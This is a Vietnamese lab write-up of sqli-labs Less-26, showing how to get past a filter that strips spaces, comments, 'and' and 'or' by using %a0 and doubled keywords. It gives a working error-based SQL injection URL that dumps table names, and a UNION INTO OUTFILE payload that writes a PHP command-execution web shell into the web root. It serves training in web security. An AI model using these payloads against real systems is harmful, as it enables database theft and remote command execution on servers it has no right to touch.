






# Less 26

Đề bài yêu cầu nhập vào một giá trị



Thử nhập vào một giá trị



Khi nhập vào `a'` thì tôi thấy xuất hiện lỗi



Ở đây các ký tự comment khoảng trống đã bị bỏ



Tôi thấy cả `and` và `or` cũng đã bị bỏ

Dựa vào đây ta có thể show được các thông tin trong DB như nhưng bài trước nhưng ta thay thế các các ký tự khoảng trống bằng `%a0`, `or` bằng `oorr`, `and` bằng `anandd`.

Show bảng trong DB

```
http://192.168.84.233/sqli-labs/Less-26/?id=1%27||updatexml(%a01%a0,concat(%a00x7e%a0,(select%a0table_name%a0from%a0infoorrmation_schema.tables%a0where%a0table_schema=%27security%27%a0limit%a00,1),%a00x7e%a0),1)||%271%27=%271
```



Tương tự như vậy ta có thể show các thông tin khác.

Viết được vào một file(chưa sử dụng được dùng dấu `/`)

```
http://192.168.84.233/sqli-labs/Less-26/?id=1%27%a0union%a0select%a00,0,%22%3C?php%a0system($_REQUEST[%27cmd%27]);?%3E%22%a0into%a0outfile%a0%27/var/www/html/tests/a1.php%27%a0from%a0emails%a0oorrder%a0by%a0id%a0oorr%a0%271
```

